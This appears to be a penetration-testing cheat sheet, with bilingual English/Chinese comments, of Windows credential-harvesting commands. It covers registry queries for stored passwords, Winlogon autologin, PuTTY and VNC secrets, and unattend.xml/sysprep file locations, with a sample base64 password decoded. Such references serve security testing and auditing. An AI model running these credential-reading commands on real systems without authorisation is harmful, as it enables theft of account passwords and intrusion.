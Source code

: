 ```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s


# ---------------
# Read a value of a certain sub key
# 读取某个子键的值

REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList


# ---------------
# Passwords in unattend.xml
# unattend.xml中的密码

# Location of the unattend.xml files.
# unattend.xml文件的位置
# The Metasploit module post/windows/gather/enum_unattend looks for these files.
# MSF模块post/windows/gather/enum_unattend可查找这些文件

C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

# 示例内容

<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>

# 解码上述内容中的base64得到密码

$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo="  | base64 -d 
SecretSecurePassword1234*


```